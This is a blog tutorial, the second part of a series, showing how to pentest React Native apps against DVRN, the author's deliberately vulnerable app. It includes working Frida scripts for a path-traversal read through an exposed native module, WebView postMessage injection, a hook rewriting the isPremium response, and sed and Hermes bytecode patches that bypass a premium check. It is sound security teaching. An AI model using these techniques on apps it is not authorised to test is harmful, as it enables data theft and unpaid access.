This is Part 2 of a two-part series on testing React Native applications. [Part 1](/posts/react-native-pentesting-fundamentals/) covered identifying an RN app, detecting its architecture and JS engine, and reading its bundle. This part puts all of that to use against DVRN, a deliberately vulnerable RN app I built specifically for this series, walking through five real vulnerabilities end to end.

---

## Introducing DVRN

DVRN (Damn Vulnerable React Native) is a deliberately vulnerable React Native app I built to have a real, hands-on target for the techniques covered in Part 1, rather than talking about them in the abstract.

It ships as **three separate build variants**, each targeting one of the three bundle-readability scenarios from Part 1:

- **Variant A** - Hermes disabled (JSC), plain JS bundle
- **Variant B** - Hermes enabled, an older bytecode version with working disassemble/reassemble tooling
- **Variant C** - Hermes enabled, a newer bytecode version where no reassembler was available at the time I did this exploitation work (a working one turned up later - more on that when we get there)

Same five vulnerabilities, same underlying logic, implemented identically across all three - but the actual exploitation _technique_ for two of them changes completely depending on which variant you're looking at, because what's readable and patchable differs by scenario. That's the whole point of building it this way: the same bug can demand a completely different approach depending on how the target app happens to be compiled.

The five vulnerabilities:

- **VB-01** - Insecure local storage (plaintext session token)
- **VB-02** - Hardcoded secret in the bundle
- **VB-04** - Exposed native module with no input validation
- **VB-03** - Client-side authorization bypass (the flagship vuln - three different techniques across the three variants)
- **VB-05** - Insecure WebView bridge

The repo is here: [DVRN](https://github.com/waseeq14/DVRN). Each variant has its own build instructions if you want to follow along hands-on rather than just read.

If you want an emulator set up and ready for this kind of testing without doing it all by hand, I put together a setup script for exactly that: [android-pentest-setup](https://github.com/waseeq14/android-pentest-setup).

One deliberate scoping decision: DVRN doesn't cover SSL pinning bypass, root/jailbreak detection bypass, or similar generic mobile-hardening checks. Not because they don't matter - they absolutely do - but because they're already well covered by existing vulnerable apps like AndroGoat and DVAA, and none of that is specific to React Native anyway. DVRN's scope is narrower and more deliberate: five bugs that are either unique to how RN itself is built, or meaningfully different to exploit because of RN's architecture, not generic checks any Android or iOS app could have regardless of framework.

---

## VB-01 - Insecure Local Storage

**Applies to: Variant A, Variant B, Variant C** - identical logic and identical exploitation across all three, since this is a device-storage concern with nothing to do with which JS engine or bytecode version the app happens to be running.

After logging in through the real UI, the session token needs to go somewhere. React Native's default answer for "just persist this" is `AsyncStorage` - and unless a team deliberately reaches for something like `react-native-keychain` instead, that's exactly what ends up holding the session token: an unencrypted SQLite database sitting in the app's own private storage, under `files/../databases/`.



`AsyncStorage`, `AsyncStorage-wal`, and `AsyncStorage-shm` - a real SQLite database, no encryption in sight.

From there, it's a straight `sqlite3` query away from the actual token:

```bash
sqlite3 AsyncStorage
sqlite> select * from Storage;
```



```
authToken|dvrn_sess_testUser_1786710312605_573195dac6d6a7d19ff68d729abc244d
```

Plaintext, sitting in a table called `Storage`, readable by anyone with filesystem access to the app - root, a rooted emulator, or `adb backup` on an app that hasn't disabled it. No decompiling, no Frida, no bypass required - just knowing where React Native puts things by default.

It's worth not underestimating how far this basic mistake can go in the wild. On a real engagement, I've come across an app storing the actual username and password in plaintext this same way, alongside a numeric PIN that was entirely local to the app - a "remember me" style convenience feature. Enter the PIN, and the app would pull the stored credentials straight out of `AsyncStorage` and fire off a real login request using them. Nothing about that PIN was tied to the backend at all - it was purely a local gate protecting credentials that were already sitting in plaintext one directory away. Never assume a team has done the bare minimum here; check for yourself every time.

---

## VB-02 - Hardcoded Secret in the Bundle

**Applies to: Variant A, Variant B, Variant C** - identical, and this is the vuln that most directly demonstrates the string-table finding from Part 1: a hardcoded API key is recoverable via a plain string search regardless of which variant you're looking at, even on Variant C's Hermes bytecode where no disassembler was available at the time.

There's a `PREMIUM_API_KEY` hardcoded directly in JS source, used to authenticate calls to a "premium content" backend endpoint. On Variant A, this is trivial - the bundle is plain text, so any text editor or `grep` finds it immediately. The more interesting case is Variant B and C, where the bundle is compiled Hermes bytecode - and the key is still just as recoverable, because string literals sit in a flat table completely separate from compiled instruction logic, independent of bytecode version:

```bash
strings assets/index.android.bundle | grep -i "premium_api_key\|sk_live"
```



Same result on all three variants, same one-line command - the only thing that changes is whether you're running it against plain JS text or raw Hermes bytecode, and it doesn't matter which, because the string table doesn't care.

This is the setup for the far more important distinction covered in VB-03 next: a hardcoded _constant_ like this is always grep-able, no matter what. A _decision_ - an `if` statement, a comparison, actual control flow - is not, and that's where the real exploitation work in this series happens.

---

## VB-04 - Exposed Native Module

**Applies to: Variant A, Variant B, Variant C** - identical logic across all three, though DVRN's `DebugModule` is written in Kotlin on Variant A and C, and plain Java on Variant B, since that project's build never had the Kotlin plugin configured (it's scaffolded on a much older RN template). The bridge itself doesn't care which language wrote the native side - the vulnerability and the exploitation technique are the same regardless.

Part 1 already introduced the recon side of this: decompiling with jadx, finding a class extending `ReactContextBaseJavaModule`, reading its `getName()`, and spotting `@ReactMethod` on the exposed method. Here's the same class again, this time looking at what that method actually does:



`readInternalFile(path: String, promise: Promise)` takes `path` straight from JS and hands it directly to `File(path).readText()` - no validation, no sanitization, no check that it's confined to any particular directory. Whatever string JS sends, this method reads.

There are two ways to actually call this. The first is the one you'd reach for normally - `NativeModules.DebugModule.readInternalFile(path)` from JS, using RN's own bridge machinery to construct and wire up the `Promise` automatically. Worth a quick note on something that isn't obvious the first time you hit it: a plain Frida script can't just do this by calling `require('react-native')` the way app code does - Frida's own JS runtime is separate from the app's Hermes/JSC engine, so `require` isn't defined there. Reaching this method from JS means either running the call from inside the app's own JS context (a remote debugger, or code you've added to the bundle), not from a standalone Frida script.

The second way is more direct, and it's the one actually demonstrated here: skip the JS side entirely and call the native object straight from Frida using `Java.choose()`. This reaches the vulnerability regardless of whether the JS bridge is even reachable at all - a meaningfully stronger result than going through `NativeModules`, since it proves the native code itself has no guard, independent of anything on the JS side.

Doing this the direct way runs into one thing worth understanding rather than working around blindly: `readInternalFile`'s second parameter is a real `Promise` object, and Kotlin's compiled method expects something that genuinely implements that interface - calling it directly means supplying a real one yourself. `Java.registerClass()` builds exactly that at runtime:

<details>
<summary>vb04_hook.js - click to expand</summary>

```javascript
Java.perform(function () {
  const Promise = Java.use("com.facebook.react.bridge.Promise");

  const MyPromise = Java.registerClass({
    name: "com.dvrn.app.MyFridaPromise",
    implements: [Promise],
    methods: {
      resolve: function (value) {
        console.log("[VB04] resolve: " + value);
      },
      reject: [
        {
          returnType: "void",
          argumentTypes: ["java.lang.String"],
          implementation: function (code) {
            console.log("[VB04] reject(code): " + code);
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.String",
            "com.facebook.react.bridge.WritableMap",
          ],
          implementation: function (code, userInfo) {
            console.log("[VB04] reject(code, userInfo): " + code);
          },
        },
        {
          returnType: "void",
          argumentTypes: ["java.lang.String", "java.lang.String"],
          implementation: function (code, message) {
            console.log(
              "[VB04] reject(code, message): " + code + " / " + message,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.String",
            "java.lang.String",
            "com.facebook.react.bridge.WritableMap",
          ],
          implementation: function (code, message, userInfo) {
            console.log(
              "[VB04] reject(code, message, userInfo): " +
                code +
                " / " +
                message,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.String",
            "java.lang.String",
            "java.lang.Throwable",
          ],
          implementation: function (code, message, throwable) {
            console.log(
              "[VB04] reject(code, message, throwable): " +
                code +
                " / " +
                message +
                " / " +
                throwable,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.String",
            "java.lang.String",
            "java.lang.Throwable",
            "com.facebook.react.bridge.WritableMap",
          ],
          implementation: function (code, message, throwable, userInfo) {
            console.log(
              "[VB04] reject(code, message, throwable, userInfo): " +
                code +
                " / " +
                message +
                " / " +
                throwable,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.String",
            "java.lang.Throwable",
            "com.facebook.react.bridge.WritableMap",
          ],
          implementation: function (code, throwable, userInfo) {
            console.log(
              "[VB04] reject(code, throwable, userInfo): " +
                code +
                " / " +
                throwable,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: ["java.lang.String", "java.lang.Throwable"],
          implementation: function (code, throwable) {
            console.log(
              "[VB04] reject(code, throwable): " + code + " / " + throwable,
            );
          },
        },
        {
          returnType: "void",
          argumentTypes: [
            "java.lang.Throwable",
            "com.facebook.react.bridge.WritableMap",
          ],
          implementation: function (throwable, userInfo) {
            console.log("[VB04] reject(throwable, userInfo): " + throwable);
          },
        },
        {
          returnType: "void",
          argumentTypes: ["java.lang.Throwable"],
          implementation: function (throwable) {
            console.log("[VB04] reject(throwable): " + throwable);
          },
        },
      ],
    },
  });

  Java.choose("com.dvrn.app.DebugModule", {
    onMatch: function (instance) {
      console.log(
        "[VB04] Found DebugModule instance, calling readInternalFile...",
      );
      const p1 = MyPromise.$new();
      instance.readInternalFile(
        "/data/data/com.dvrn.app/files/dvrn_debug_info.txt",
        p1,
      );

      const p2 = MyPromise.$new();
      instance.readInternalFile(
        "/data/data/com.dvrn.app/../../../etc/hosts",
        p2,
      );
    },
    onComplete: function () {
      console.log("[VB04] done searching");
    },
  });
});
```

</details>

Every method on `Promise` needs a real implementation here, not just the ones you expect to actually get called - `Java.registerClass()` won't let a class claim to implement an interface without providing all of it, same as any Java/Kotlin class you'd write by hand. Running it against the real, unmodified app:

```bash
frida -U -f com.dvrn.app -l vb04_hook.js
```



The benign path (`dvrn_debug_info.txt`) fails here with `ENOENT` - that particular test file was never planted on this run - but the traversal payload right after it succeeds regardless, `resolve` printing the real contents of `/etc/hosts`.

---

## VB-05 - Insecure WebView Bridge

**Applies to: Variant A, Variant B, Variant C** - identical logic across all three. The only difference is which version of `react-native-webview` each variant pulls in (Variant B uses an older, period-correct version matching its RN release), which has zero bearing on the vulnerability itself.

DVRN has a Help screen that loads a page inside a `WebView` - a real embedded browser engine rendering actual HTML, as opposed to a native RN screen built from `View`/`Text`. Whatever runs inside that page can talk back to the native app through `window.ReactNativeWebView.postMessage(...)`, paired with an `onMessage` handler on the React Native side:

```jsx
<WebView
  source={{ uri: API_BASE_URL + "/help" }}
  onMessage={(event) => {
    const data = JSON.parse(event.nativeEvent.data);
    handleAction(data.action, data.payload);
  }}
/>
```

`onMessage` fires for any `postMessage` call the loaded page makes, and this handler does two things wrong: it never checks `event.nativeEvent.url` to confirm where the message actually came from, and it never validates the shape of `data` before dispatching it straight into `handleAction`.



This is DVRN's real Help screen - a plain page, loaded from DVRN's own backend, doing nothing unusual. That's a deliberate scope decision worth being explicit about: the WebView here loads a fixed URL that isn't attacker-reachable, so the lesson isn't "don't load untrusted pages" - that part's obvious. It's that even a page you trust completely right now can't be assumed safe forever. If that page's own JS context is ever compromised by any means - a dependency it loads getting hijacked, an XSS bug on the page itself, a compromised upstream response - whatever runs there inherits full ability to talk to the native app, because nothing on the native side ever checks.

Before touching anything, it's worth confirming what's actually loaded rather than assuming. Attaching Frida to the running app and enumerating live `WebView` instances confirms the real URL, and that JS execution is enabled on it:

<details>
<summary>vb05_inspect.js - click to expand</summary>

```javascript
Java.perform(function () {
  Java.scheduleOnMainThread(function () {
    console.log(
      "[VB05_INSPECT] Searching for android.webkit.WebView instances...",
    );
    Java.choose("android.webkit.WebView", {
      onMatch: function (instance) {
        try {
          console.log("[VB05_INSPECT] Found WebView instance: " + instance);
          console.log(
            "[VB05_INSPECT]   class: " + instance.getClass().getName(),
          );
          console.log("[VB05_INSPECT]   url(): " + instance.getUrl());
          console.log(
            "[VB05_INSPECT]   originalUrl(): " + instance.getOriginalUrl(),
          );
          console.log("[VB05_INSPECT]   title(): " + instance.getTitle());
          console.log(
            "[VB05_INSPECT]   settings.getJavaScriptEnabled(): " +
              instance.getSettings().getJavaScriptEnabled(),
          );
        } catch (e) {
          console.log("[VB05_INSPECT]   error reading instance details: " + e);
        }
      },
      onComplete: function () {
        console.log("[VB05_INSPECT] Done searching for WebView instances.");
      },
    });

    console.log(
      "[VB05_INSPECT] Searching for RNCWebView subclass (react-native-webview's actual WebView subclass)...",
    );
    try {
      Java.choose("com.reactnativecommunity.webview.RNCWebView", {
        onMatch: function (instance) {
          console.log("[VB05_INSPECT] Found RNCWebView instance: " + instance);
        },
        onComplete: function () {
          console.log(
            "[VB05_INSPECT] Done searching for RNCWebView instances.",
          );
        },
      });
    } catch (e) {
      console.log("[VB05_INSPECT] RNCWebView class not found or error: " + e);
    }
  });
});
```

</details>



Confirmed: `url()` and `originalUrl()` both point at `http://10.0.2.2:3000/help` - DVRN's own backend, exactly as expected, and `settings.getJavaScriptEnabled()` returns `true`. No surprises here, which is the point - the bug isn't in what page gets loaded, it's in what the native side is willing to trust once something runs inside it.

To actually demonstrate the bug, the simplest way to simulate "attacker-controlled script is now running inside this WebView" without staging a real compromise is `evaluateJavascript()` - it runs arbitrary JS in the live page's real JS context, exactly what a genuinely compromised page's own script would be able to do:

<details>
<summary>vb05_hook.js - click to expand</summary>

```javascript
Java.perform(function () {
  Java.scheduleOnMainThread(function () {
    Java.choose("android.webkit.WebView", {
      onMatch: function (instance) {
        console.log("[VB05] Found WebView instance, injecting...");
        const payload = JSON.stringify({
          action: "SHOW_ALERT",
          payload: {
            title: "PWNED",
            message: "attacker-controlled via postMessage, no origin check",
          },
        });
        const js =
          "window.ReactNativeWebView.postMessage(" +
          JSON.stringify(payload) +
          ");";
        instance.evaluateJavascript(js, null);
        console.log("[VB05] Injected: " + js);
      },
      onComplete: function () {
        console.log("[VB05] Done searching for WebView instances");
      },
    });
  });
});
```

</details>

This one needs to attach to the app _after_ the Help screen is already open, not spawn it fresh - a fresh spawn would have no WebView loaded yet for `Java.choose` to find:

```bash
adb shell pidof com.dvrn.app
frida -U -p <pid> -l vb05_hook.js
```



The `Found WebView instance, injecting...` line repeats a few times - `Java.choose` picks up more than one internal `WebView`-derived object under the hood, not just the single one actually visible on screen, so the same injection fires against each.



A native alert reading "PWNED - attacker-controlled via postMessage, no origin check" - fired entirely from a `postMessage` call the app had no reason to trust, and no mechanism in place to actually check.

---

## VB-03 - Client-Side Authorization Bypass

**Applies to: Variant A, Variant B, Variant C** - same underlying flaw everywhere, but the exploitation technique differs completely per variant: direct bundle patch on Variant A, disassemble/patch/reassemble on Variant B, runtime network interception on Variant C. That difference is the entire reason this is the flagship vuln of the series - the same bug, three completely different attacker postures, depending entirely on how the target app happens to be compiled.

On login, the backend returns an `isPremium` boolean. The app caches it and uses it to gate a Premium screen - roughly:

```jsx
function PremiumScreen({ isPremium }) {
  if (!isPremium) {
    return <Text>Upgrade to access this feature</Text>;
  }
  return <PremiumContent />;
}
```

The bug: the backend never re-checks `isPremium` when the actual premium content is requested - it only checks the static API key from VB-02, which every copy of the app has embedded in it. So the only thing standing between a free account and premium content is a client-side `if` statement, and the client is something the person running the app fully controls.

### Variant A - direct bundle patch

Variant A has no Hermes bytecode to deal with at all - the bundle is plain, minified JS text, so the entire exploit happens at the text level: find the check, edit it, repackage.

Beautifying makes the bundle genuinely readable rather than eyeballing one giant minified line:

```bash
js-beautify index.android.bundle > index.android.bundle.beautified.js
```





The beautified output is real, indented JavaScript - Metro's module registration boilerplate here, but the actual `PremiumScreen` logic is in there too, just further down. Grepping the raw (unbeautified) bundle directly for the visible upgrade message finds the exact gate, minified single-line context and all:

```bash
grep "Upgrade to access this feature" index.android.bundle
```



The highlighted section is the actual ternary: `,[u]),u?(0,o.jsxs)(c.View,...` - `u` holds the `isPremium` value (captured a few tokens earlier from `props.isPremium`), and this is the exact point where its truthiness decides which branch renders.
The patch: force this one ternary condition to always be true, without touching any other occurrence of `u` elsewhere in the file - anchored by the unique surrounding text so the edit can't land anywhere else by accident:

```bash
sed -i.bak 's/,\[u\]),u?(0,o.jsxs)/,[u]),1?(0,o.jsxs)/' index.android.bundle
grep -c ",\[u\]),1?(0,o.jsxs)" index.android.bundle
```



Count of `1` confirms exactly one match, exactly where intended. From here, it's a standard repackage: rezip the modified bundle back into the APK's `assets/`, resign with a debug key (the original signature is invalidated the moment any file inside changes), and reinstall.



Instead of "Upgrade to access this feature," the Premium section reads "Loading premium content..." and goes on to fetch real backend content.

### Variant B - disassemble, patch, reassemble

Variant B works completely differently from Variant A, and it's worth being explicit about the difference up front: the installed APK is never touched at all. Instead, a standalone copy of the bytecode gets disassembled and patched, and Frida is used to redirect the already-installed, unmodified app into loading that patched file instead of its own.

First, confirm what's actually inside this bundle:

```bash
file index.android.bundle
```



HBC89 - Hermes bytecode version 89. At this point the tooling question matters more than anything else: no version of hbctool works out of the box for this. The original `hbctool` 0.1.5 only supports much older bytecode versions, and the most complete fork that claims HBC89 support (`killerkingMD/hbctool-add-vers-o-90`) has a fatal bug in its reassembler - it crashes on any function with an empty body, which every real Hermes bundle has, via a mandatory module-init entry point. A different fork (`tzadik-a/hbctool`) had already fixed that exact bug, but doesn't support HBC89 on its own. The working tool is a merge of the two - `killerkingMD`'s HBC89 support with `tzadik-a`'s fixed reassembler swapped in. Rather than walk through the merge here, the fixed tool is available directly: https://github.com/waseeq14/hbctool-add-vers-o-90.

With the working tool in hand, disassembling is straightforward:

```bash
hbctool disasm index.android.bundle disasm_output/
```



This produces `instruction.hasm` (the actual compiled instructions), `metadata.json`, and `string.json` (the flat string table). Since string literals are always recoverable regardless of bytecode version, it's worth a first pass just grepping broadly for anything premium-related before narrowing down:



`isPremium` is in there as a plain string, same as everything else - but knowing the string exists doesn't tell you where it's actually _used_ as a decision. For that, its string table ID is needed, since instructions reference strings by index, not by literal text:

```bash
grep -n "isPremium" disasm_output/string.json
```



ID `3386`. Searching `instruction.hasm` for that ID directly turns up every place it's referenced:

```bash
grep -n "3386" disasm_output/instruction.hasm
```



Most of these are property writes (`PutNewOwnById`) - state being stored, not read for a decision. The one that matters is the lone `GetById` at line 208557, with no adjacent write - a pure read, and worth checking what happens to it immediately afterward:



That `GetById` sits inside `Function<PremiumScreen>4243` - confirmation this is the real gate, not a coincidental reference elsewhere in the bundle.

The first patch I attempted here failed, and it's worth explaining why rather than skipping straight to what worked. The obvious move once you've found the `GetById` feeding the branch is to flip the branch instruction itself - the `JmpTrueLong` a few lines further down - into an unconditional jump (`JmpLong`). That's exactly what I tried first, and it crashed the app on load. The reason: per Hermes's own [opcode reference](https://p1sec.github.io/hermes-dec/opcodes_table.html), `GetById` and `JmpTrueLong` are both 6-byte instructions (5 operand bytes plus the opcode byte itself), while `Jmp`/`JmpLong` is only 5 bytes (4 operand bytes for the address, no register, plus the opcode byte).


Swapping a 6-byte instruction for a 5-byte one shifts every single byte after it in that function by one - every downstream jump target now points one byte into what used to be a different instruction, and the interpreter starts decoding garbage.

I found another way using the opcode table and my great friend Claude. The actual fix leaves the jump completely untouched, and instead corrupts the value being tested, one instruction earlier - replacing the `GetById` read with a same-total-size pair: `LoadConstTrue` (2 bytes: 1 operand + opcode) forces the register to a genuine boolean `true`, and `LoadConstString` (4 bytes: 3 operand + opcode) is pure padding, chosen specifically because the register it targets is dead at that point in the function and never read again. `2 + 4 = 6` - exactly matching the original `GetById`'s size, so nothing downstream shifts at all.

```bash
sed -n '208557p' disasm_output_v2/instruction.hasm | cat -tve
perl -i.bak -pe 'if ($. == 208557) { $_ = "\tLoadConstTrue       \tReg8:1\n\tLoadConstString     \tReg8:0, UInt16:3386\n" }' disasm_output_v2/instruction.hasm
sed -n '208555,208561p' disasm_output_v2/instruction.hasm | cat -tve
```



Confirmed: `GetById` replaced cleanly with `LoadConstTrue`/`LoadConstString`. Reassembling:

```bash
hbctool asm disasm_output_v2/ patched_isPremium_v2.hbc
```



Pushing the patched file to the device:

```bash
adb push patched_isPremium_v2.hbc /data/local/tmp/patched_isPremium_v2.hbc
```



708352 bytes - matching the original bundle's size exactly.

The last piece is getting the already-installed, unmodified app to actually load this file instead of its own bundled one. `ReactNativeHost.getJSBundleFile()` normally returns `null`, meaning "load from the APK's assets" - hooking it to return a real path instead redirects bundle loading entirely:

<details>
<summary>vb_roundtrip_hook.js - click to expand</summary>

```javascript
Java.perform(function () {
  const PATCHED_BUNDLE_PATH = "/data/local/tmp/patched_isPremium_v2.hbc";

  function hookClass(className) {
    try {
      const Cls = Java.use(className);
      Cls["getJSBundleFile"].implementation = function () {
        const original = this["getJSBundleFile"]();
        console.log(
          "[ROUNDTRIP] " +
            className +
            ".getJSBundleFile() called, original=" +
            original +
            " -> redirecting to " +
            PATCHED_BUNDLE_PATH,
        );
        return PATCHED_BUNDLE_PATH;
      };
      console.log("[ROUNDTRIP] Hooked " + className + ".getJSBundleFile()");
    } catch (e) {
      console.log("[ROUNDTRIP] Could not hook " + className + ": " + e);
    }
  }

  hookClass("com.facebook.react.ReactNativeHost");
  hookClass("com.facebook.react.defaults.DefaultReactNativeHost");
});
```

</details>

```bash
frida -U -f com.dvrn.app -l vb_roundtrip_hook.js
```



`DefaultReactNativeHost` doesn't exist at this RN version (0.70.15) - it's a newer wrapper class that comes later, so that hook fails to attach. The base `com.facebook.react.ReactNativeHost` hook succeeds, fires when the app actually loads its bundle, and confirms the redirect: `original=null -> redirecting to /data/local/tmp/patched_isPremium_v2.hbc`.


Same result as Variant A - "Loading premium content..." instead of the upgrade message. The difference is what got touched to get there: on Variant A, the installed APK itself was patched and reinstalled. Here, the original APK never changed at all - only a standalone bytecode file was patched, and the live process was redirected into loading it instead.

### Variant C - runtime network interception

Variant C runs on HBC96. A tool that reassembles this version does exist now (Kirlif/HBC-Tool, covered in Part 1's reference table) - so the same disassemble/patch/reassemble path from Variant B is technically available here too. I'm not repeating it, since Variant B already demonstrates that exact technique in full and redoing it against a different bytecode version wouldn't teach anything new. What I actually did here was find this out the hard way, before that tool turned up, which is the more interesting story anyway: no static patching option, so the only path left was catching the app while it's actually running.

The first thing I tried was hooking `HermesRuntimeImpl::call` - the internal function Hermes itself uses to invoke any JS function - hoping to trace every call during login and spot whichever one handles `isPremium`. It didn't work tho. The function has no exported symbol in this build's stripped `libhermes.so`, so there was no name to hook by. Walking the Hermes runtime's own vtable dynamically (catching the object as it's constructed, then reading its real function-pointer table) got further, but the reference `jsi.h` header doesn't fully match what the binary was actually compiled against, and after profiling which vtable slots fired most during a real login, the strongest candidates turned out to be compiler-merged functions sharing identical code, not `call()`'s own distinct logic. None of it could be pinned down with confidence, and I wasn't willing to guess and risk crashing the live process for it. Abandoned, and I moved to the native/Java side instead.

Before getting into the fix itself, I want to share something I found along the way, since I think it's genuinely useful on its own: a way to watch an RN app's network traffic live, without a proxy, without touching TLS at all. Hooking every callback in RN's own `ResponseUtil`/`NetworkingModule` classes logs status codes, headers, URLs, and bodies as the app itself processes them internally - which means it works even against a target with certificate pinning, since nothing here is intercepting the connection itself, just watching what RN does with the response after its own networking stack has already decrypted it.

<details>
<summary>vb03_trace_all.js - click to expand</summary>

```javascript
Java.perform(function () {
  const ResponseUtil = Java.use(
    "com.facebook.react.modules.network.ResponseUtil",
  );
  const NetworkingModule = Java.use(
    "com.facebook.react.modules.network.NetworkingModule",
  );

  function safeStr(v) {
    try {
      return v === null ? "null" : v.toString();
    } catch (e) {
      return "<unstringable: " + e + ">";
    }
  }

  ResponseUtil.onDataReceived.overload(
    "com.facebook.react.bridge.ReactApplicationContext",
    "int",
    "com.facebook.react.bridge.WritableMap",
  ).implementation = function (ctx, id, map) {
    console.log("[TRACE] onDataReceived(WritableMap) id=" + id);
    try {
      const WritableNativeMap = Java.use(
        "com.facebook.react.bridge.WritableNativeMap",
      );
      const casted = Java.cast(map, WritableNativeMap);
      console.log("[TRACE]   toString()=" + safeStr(casted.toString()));
    } catch (e) {
      console.log("[TRACE]   error casting/printing map: " + e);
    }
    return this.onDataReceived(ctx, id, map);
  };

  ResponseUtil.onDataReceived.overload(
    "com.facebook.react.bridge.ReactApplicationContext",
    "int",
    "java.lang.String",
  ).implementation = function (ctx, id, body) {
    console.log(
      "[TRACE] onDataReceived(String) id=" + id + " body=" + safeStr(body),
    );
    return this.onDataReceived(ctx, id, body);
  };

  ResponseUtil.onIncrementalDataReceived.implementation = function (
    ctx,
    id,
    data,
    progress,
    total,
  ) {
    console.log(
      "[TRACE] onIncrementalDataReceived id=" +
        id +
        " data=" +
        safeStr(data) +
        " progress=" +
        progress +
        " total=" +
        total,
    );
    return this.onIncrementalDataReceived(ctx, id, data, progress, total);
  };

  ResponseUtil.onResponseReceived.implementation = function (
    ctx,
    id,
    status,
    headers,
    url,
  ) {
    console.log(
      "[TRACE] onResponseReceived id=" +
        id +
        " status=" +
        status +
        " url=" +
        safeStr(url) +
        " headers=" +
        safeStr(headers),
    );
    return this.onResponseReceived(ctx, id, status, headers, url);
  };

  ResponseUtil.onRequestSuccess.implementation = function (ctx, id) {
    console.log("[TRACE] onRequestSuccess id=" + id);
    return this.onRequestSuccess(ctx, id);
  };

  NetworkingModule.readWithProgress.implementation = function (id, body) {
    console.log(
      "[TRACE] readWithProgress id=" +
        id +
        " bodyClass=" +
        safeStr(body.getClass().getName()),
    );
    return this.readWithProgress(id, body);
  };

  console.log("[TRACE] All hooks installed.");
});
```

</details>

Running this during a real login is what actually cracked the case. My first guess for where the login response lands was `ResponseUtil.onDataReceived(ReactApplicationContext, int, String)` - the plain-string overload. It never fired. Not an error, just silence, which is the tell that the assumption was wrong, not the technique. The trace script above caught what actually happens instead: the `WritableMap` overload fires, and casting it reveals a `{blobId, offset, size}` reference, not the response content itself - the fingerprint of React Native's Blob mechanism. Following that lead into `BlobModule` confirmed it directly: `store(byte[])` is where the real HTTP response bytes exist, right before they're stashed and only referenced indirectly from JS.

That's the actual hook point - the exact moment a network response is a plain, editable byte array, one step before it disappears behind a blob reference:

<details>
<summary>vb03_blob_rewrite.js - click to expand</summary>

```javascript
Java.perform(function () {
  const BlobModule = Java.use("com.facebook.react.modules.blob.BlobModule");
  const JString = Java.use("java.lang.String");
  const storeOverload = BlobModule.store.overload("[B");

  storeOverload.implementation = function (bytes) {
    try {
      const original = JString.$new(bytes, "UTF-8").toString();
      if (original.indexOf('"isPremium":false') !== -1) {
        const patched = original.replace(
          '"isPremium":false',
          '"isPremium":true ',
        );
        console.log(
          "[VB03] intercepted blob store, response body contains isPremium",
        );
        console.log("[VB03] original: " + original);
        console.log("[VB03] patched:  " + patched);
        const newBytes = JString.$new(patched).getBytes("UTF-8");
        return this.store(newBytes);
      }
    } catch (e) {
      console.log("[VB03] error inspecting blob bytes: " + e);
    }
    return this.store(bytes);
  };
  console.log("[VB03] Hook installed on BlobModule.store(byte[])");
});
```

</details>

One gotcha that cost a failed run before I caught it: `"isPremium":true` is one byte shorter than `"isPremium":false`, and the code computing the blob's size metadata does it before this hook runs, never re-measuring the array afterward. An unpadded replacement corrupts the JSON on the JS side with zero visible symptom - `response.json()` just fails silently and the app sits on the login screen looking normal. Padding the replacement to the exact original byte length (`"isPremium":true ` with a trailing space, valid JSON whitespace) fixes it cleanly.

```bash
frida -U -f com.dvrn.app -l vb03_blob_rewrite.js
```



The hook fires on the real login response, and the intercepted body shows both sides of the swap - `isPremium:false` going in, `isPremium:true` coming back out, right before it ever reaches JS.



Logged in as a free account. The real backend returned `isPremium: false`, same as always - but by the time the app's own JS looked at the response, it read `true`, and the Premium screen rendered real fetched content, gated only by the static API key from VB-02. No bundle was ever touched, no source was read, and the original release APK never changed at all - the interception happened purely in memory, at the exact moment a network response crosses from native code into JS.

---

That covers all five vulnerabilities across all three variants - a plain-JS text patch, a full disassemble/patch/reassemble cycle against real Hermes bytecode, and a live network interception when neither static option was available. Same five bugs everywhere; the actual work needed to exploit two of them depended entirely on how the target happened to be compiled, which was the whole point of building DVRN this way rather than shipping one build.

Everything in this series - DVRN included - was deliberately scoped to the old bridge, for reasons covered back in Part 1. I'll be working on a similar series covering the new architecture next - JSI, Fabric, TurboModules, and whatever the equivalent of "bridge interception" turns out to be once there's no bridge left to intercept. That's a different research project, not a port of anything here, so it'll take its own time to get right.
